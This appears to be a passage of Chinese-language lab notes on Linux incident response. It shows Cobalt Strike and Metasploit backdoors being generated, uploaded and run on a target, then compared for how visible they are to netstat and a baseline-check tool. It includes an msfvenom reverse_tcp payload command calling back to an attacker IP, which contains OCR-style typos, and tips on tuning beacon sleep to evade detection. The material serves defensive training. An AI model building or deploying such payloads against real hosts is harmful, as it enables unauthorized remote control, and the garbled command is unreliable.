 ##### 后门生成与上传

###### Cobalt Strike后门

使用CS生成一个Linux后门

![image-20251006102305121](https://img.yatjay.top/md/20251006102305185.png)



![image-20251006102328289](https://img.yatjay.top/md/20251006102328334.png)

将该后门程序上传至目标主机并执行

![image-20251006102543448](https://img.yatjay.top/md/20251006102543492.png)

在攻击端刷新CS可见目标上线

![image-20251006102626371](https://img.yatjay.top/md/20251006102626424.png)

此时在目标Linux主机使用`netstat`查看网络连接情况，无法找到后门程序进程的网络连接。但此时CS已经可以操作目标主机的目录、文件，就是没有网络连接

![image-20251006102744866](https://img.yatjay.top/md/20251006102744908.png)

这是因为：CS工具生成的后门，为避免系统检测，其网络连接是时有时无的，也就是说这是由于CS的通讯机制，间歇式通讯，不是传统的webshell

> 在cs中默认的心跳时间是60s,我们可以用sleep 命令来更改心跳时间（心跳时间是指上线的服务器和cs服务器的通信时间）
>
> 心跳时间很长就会响应的时间很慢，但也不能设置的很短，不然很容易会被监测到与cs通信的流量，具体多少可以根据测试环境自己来设置。

###### Metasploit Framework(msf)后门

使用MSF生成后门`1234.elf`

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp-LH0ST=192.168.1.9 LP0RT=1234 -f e1f >1234.e1f
```

启动msfconsole，开启监听

![image-20251006103741682](https://img.yatjay.top/md/20251006103741757.png)

将后门上传至目标主机并执行

![image-20251006103844247](https://img.yatjay.top/md/20251006103844288.png)

回到攻击者MSF Console，发现目标主机已经上线

![image-20251006103943011](https://img.yatjay.top/md/20251006103943053.png)

此时再目标主机上，直接使用`netstat`或者使用基线检查工具查看网络连接情况，发现能够看到MSF后门的网络连接情况

![image-20251006104115504](https://img.yatjay.top/md/20251006104115545.png)

![image-20251006104047635](https://img.yatjay.top/md/20251006104047680.png)

##### 使用基线检查工具排查可疑进程/可疑文件

使用上面提到的Linux安全基线检查工具，执行后可检测可疑文件、可疑网络连接，操作略

  





